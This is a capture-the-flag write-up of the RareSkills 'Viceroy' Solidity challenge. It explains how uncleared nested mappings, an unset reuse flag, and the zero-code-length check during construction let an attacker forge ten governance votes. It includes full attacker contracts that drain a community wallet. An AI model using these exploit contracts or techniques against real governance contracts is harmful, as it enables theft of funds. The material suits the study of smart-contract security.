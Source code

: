 
## Day 18-19 Issues with the delete keyword

### RareSkills Riddles: Viceroy

The objective of this is to drain the community wallet of all Ether and transfer that to the attacker wallet.  There are three contracts in the Solidity file.  

1. ```OligarchyNFT``` this is an ERC721 NFT where the constructor mints 1 NFT to the attacker. 
2. ```Governance``` this is the main contract where the Community Wallet gets created, and funded.  Proposals can be created here and voted on.  Each proposal needs 10 votes to be executed.  In order to vote on a prospal a contract can call ```voteOnProposal()``` each address has to be an approved address and can only vote one time.  In order to approve an address a viceroy need to call approveVoter().  Each viceroy can only approve five voters, however the viceroy and be deposed and a new viceroy can be appointed, also the viceroy cannot be a contract only and EOA.  Lastly the voter cannot be contracts but only EOAs.  
3. ```CommunityWallet``` when this contract is created the governance address is set.  The governance address can call ```exec(address target, bytes data, uint256 value)``` which will send ether to an another address and perform a function call.   In the ```Governance``` constructor the community wallet owner is assigned to the Governance contract.  

Transfering funds out of the CommunityWallet appears to be possible only by having the Governance contract call ```exec()```, so it appears we need to figure out how to get 10 votes.  

One first glance this appears to be similar to the AssignVotes challenge, however in this challenge the assigners and voters need to be EOAs.  A brute force solution which would require 12 addresses is to appoint two addresses as viceroys then have each approve five addresses to vote.  

Another thing to note is the ```deposeViceroy()``` method uses an incorrect method of removing mappings.   

```Java
    function appointViceroy(address viceroy, uint256 id) external {
        require(oligargyNFT.ownerOf(id) == msg.sender, "not an oligarch");
        require(!idUsed[id], "already appointed a viceroy");
        require(viceroy.code.length == 0, "only EOA");

        viceroys[viceroy].appointedBy = id;
        viceroys[viceroy].numAppointments = 5;
    }

    function deposeViceroy(address viceroy, uint256 id) external {
        require(oligargyNFT.ownerOf(id) == msg.sender, "not an oligarch");
        require(
            viceroys[viceroy].appointedBy == id,
            "only the appointer can depose"
        );

        idUsed[id] = false;
        delete viceroys[viceroy];
    }
```

Solidity does not delete mappings when then ```delete``` keyword is used.  The last line in ```deposeVicerory()``` should not work and we should be able to take advangate of that.  Something else of note is that an oligarch can appoint as many viceroys as he wants.  The second ```require()``` statement in ```appointViceroy()``` checks idUsed but this is never set, so we can appoint many viceroys at the same time.  How can we take advantage of this?  Let's look at approveVoter().  

```Java
    function approveVoter(address voter) external {
        require(viceroys[msg.sender].appointedBy != 0, "not a viceroy");
        require(voter != msg.sender, "cannot add yourself");
        require(
            !viceroys[msg.sender].approvedVoter[voter],
            "cannot add same voter twice"
        );
        require(
            viceroys[msg.sender].numAppointments > 0,
            "no more appointments"
        );
        require(voter.code.length == 0, "only EOA");

        viceroys[msg.sender].numAppointments -= 1;
        viceroys[msg.sender].approvedVoter[voter] = true;
    }
```

A viceroy is needed to call ```approveVoter()```, and they can only add EOAs one time for each viceroy.  One thing to note here is that the voters are tracked by viceroy, and he have previously determined that we can have more than one active viceroy at at time.  So one voter can be approved by multiple viceroys at the same time.  However there is an ```alreadyVoted[msg.sender]``` check in ```voteOnProposal()``` so we could only vote one time.    

This contract checks tha the viceroy and voters are not contracts using the following code: ```require(voter.code.length == 0, "only EOA");```.  If the contract is being constructed then the code length will be 0.  So we can actually get around this check by putting everything in the contract's constructor.  

We can now construct a contract that will attack this by: 

1. creating two viceroys
2. for each viceroy spwan five voters

Code to do this is given below.  

```Java
contract ViceroyAttacker {
    Governance governance;
    address public proposalAddress;
    uint256 public proposalID;

    function attack(address _governanceAddress) external {
        governance = Governance(_governanceAddress);

        // create two viceroys
        Viceroy viceroy0 = new Viceroy(_governanceAddress);
        viceroy0.spawnVoters(); // for each viceroy create five voters

        Viceroy viceroy1 = new Viceroy(_governanceAddress);
        viceroy1.spawnVoters();

        // execute proposal
        governance.executeProposal(proposalID);
    }

    function appointMe() external {
        governance.appointViceroy(msg.sender, 1);
    }

    function setProposalAddress(address _add, uint256 _id) external {
        proposalAddress = _add;
        proposalID = _id;
    }

    receive() external payable {}
}

contract Viceroy {
    Governance immutable governance;
    ViceroyAttacker immutable attacker;
    bytes proposal;

    constructor(address _governance) {
        governance = Governance(_governance);
        attacker = ViceroyAttacker(payable(msg.sender));
        proposal = abi.encodeCall(CommunityWallet.exec, (msg.sender, bytes(""), 10000000000000000000));

        attacker.appointMe();
    }

    function spawnVoters() external {
        // if the proposal has not yet been created, do that
        if (attacker.proposalAddress() == address(0)) {
            governance.createProposal(address(this), proposal);
            uint256 proposalID = uint256(keccak256(proposal));
            attacker.setProposalAddress(address(this), proposalID);
        }

        for (uint256 i; i < 5; i++) {
            // spawn voter
            new Voter(address(governance), attacker.proposalID());
        }
    }

    // approve voter
    function approveMe() external {
        governance.approveVoter(msg.sender);
    }
}

contract Voter {
    constructor(address _governance, uint256 _proposalID) {
        // get approved to vote
        Viceroy(msg.sender).approveMe();
        // voteOnProposal(uint256 proposal,bool inFavor,address viceroy)
        Governance(_governance).voteOnProposal(_proposalID, true, msg.sender);
    }
}
```